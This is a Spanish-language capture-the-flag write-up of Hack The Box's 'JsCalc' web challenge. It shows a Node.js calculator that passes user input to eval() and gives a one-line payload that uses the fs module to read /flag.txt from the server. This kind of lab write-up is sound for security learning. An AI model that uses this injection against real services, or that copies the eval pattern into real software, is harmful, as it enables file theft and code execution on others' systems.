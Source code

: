 ```yaml
---
title: JsCalc
description: In the mysterious depths of the digital sea, a specialized JavaScript calculator has been crafted by tech-savvy squids. With multiple arms and complex problem-solving skills, these cephalopod engineers use it for everything from inkjet trajectory calculations to deep-sea math. Attempt to outsmart it at your own risk! 
date: 2024-06-30
toc: true
pin: false
image:
 path: /assets/img/htb-writeup-challenges/web_logo.png
categories:
  - Challenges
tags:
  - hack the box
  - rce
  - web analysis
  - vulnerability exploitation

---
```

## Web Analysis

La aplicación web permite al usuario ingresar fórmulas matemáticas que luego son evaluadas y devueltas como resultado en pantalla.

![](/assets/img/htb-writeup-jscalc/jscalc1.png)

El archivo comprimido proporcionado, contiene la estructura del entorno Node.js de la calculadora.

```terminal
/home/kali/Documents/htb/challenges/jscalc:-$ unzip jscalc.zip

/home/kali/Documents/htb/challenges/jscalc:-$ tree web_jscalc
web_jscalc
├── build-docker.sh
├── challenge
│   ├── helpers
│   │   └── calculaorHelper.js
│   ├── index.js
│   ├── package.json
│   ├── package-lock.json
│   ├── routes
│   │   └── index.js
│   ├── static
│   │   ├── css
│   │   │   └── main.css
│   │   ├── favicon.png
│   │   └── js
│   │       └── main.js
│   ├── views
│   │   └── index.html
│   └── yarm.lock
├── config
│   └── supervisord.conf
├── Dockerfile
├── flag.txt
└── supervisord.conf
```

El archivo `calculatorHelper.js` incluye la función vulnerable. La función `eval()` ejecuta dinámicamente cualquier código JavaScript dentro del string, lo que habilita ejecución arbitraria de código. 
* Referencia: [MDN - eval()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval)

```terminal
/home/kali/Documents/htb/challenges/jscalc:-$ cat web_jscalc/challenge/helperscalculatorHelper.js
module.exports = {
  calculate(formula) {
    try {
      return eval(`(function() { return ${ formula } })()`);
    } catch (e) {
      if (e instanceof SyntaxError) {
        return 'Something went wrong!';
      }
    }
  }
}
```

---
## Vulnerability Exploitation

Node.js incluye el módulo `fs` que permite acceder al sistema de archivos. Este código ejecuta directamente `readFileSync`, accede al archivo `flag.txt` y retorna su contenido como string, explotando exitosamente la vulnerabilidad.

`require('fs').readFileSync('/flag.txt').toString();`

![](/assets/img/htb-writeup-jscalc/jscalc2.png)

> <a href="https://www.hackthebox.com/achievement/challenge/1521382/551" target="_blank">JsCalc Challenge from Hack The Box has been Pwned</a>
{: .prompt-tip }
